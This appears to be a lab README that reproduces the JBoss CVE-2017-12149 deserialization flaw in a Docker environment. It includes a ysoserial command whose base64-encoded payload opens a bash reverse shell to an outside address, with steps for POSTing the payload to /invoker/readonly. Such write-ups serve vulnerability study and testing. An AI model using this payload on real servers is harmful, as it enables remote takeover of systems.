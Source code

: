 # JBoss 5.x/6.x Deserialization Vulnerability (CVE-2017-12149)

The vulnerability is a Java deserialization error type that exists in the ReadOnlyAccessFilter filter in JBoss' HttpInvoker component. The filter attempts to deserialize the data stream from the client without any security checks, resulting in a vulnerability.

reference:

 - https://mp.weixin.qq.com/s/zUJMt9hdGoz1TEOKy2Cgdg
 - https://access.redhat.com/security/cve/cve-2017-12149

## test environment

Running the test environment

```
Docker-compose up -d
```

The first time you execute it, it will take 1~3 minutes to initialize. After the initialization is completed, you can see the JBoss default page by visiting `http://your-ip:8080/`.

## Vulnerability recurrence

The vulnerability appears in the `/invoker/readonly` request, and the server deserializes the user-submitted POST content:

![](img/1.png)

Therefore, we use the conventional Java deserialization vulnerability testing method to reproduce the vulnerability.

### Write a command to bounce the shell

We use bash to bounce the shell, but since `Runtime.getRuntime().exec()` can't use the methods needed by bash such as pipe, we need to do it once.

Tools: http://jackson.thuraisamy.me/runtime-exec-payloads.html

![](img/2.png)

### Serialized data generation

Use [ysoserial] (https://github.com/frohoff/ysoserial) to reproduce the generated serialized data. Since the Java version used by Vulhub is newer, the gadget selected for use is CommonsCollections5:

```
Java -jar ysoserial.jar CommonsCollections5 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjAuMS8yMSAwPiYx}|{base64,-d}|{bash,-i}" > poc.ser
```

### Send POC

The generated POC is poc.ser. Send this file as POST Body to /invoker/readonly:

![](img/3.png)

Successfully bounced the shell:

![](img/4.png)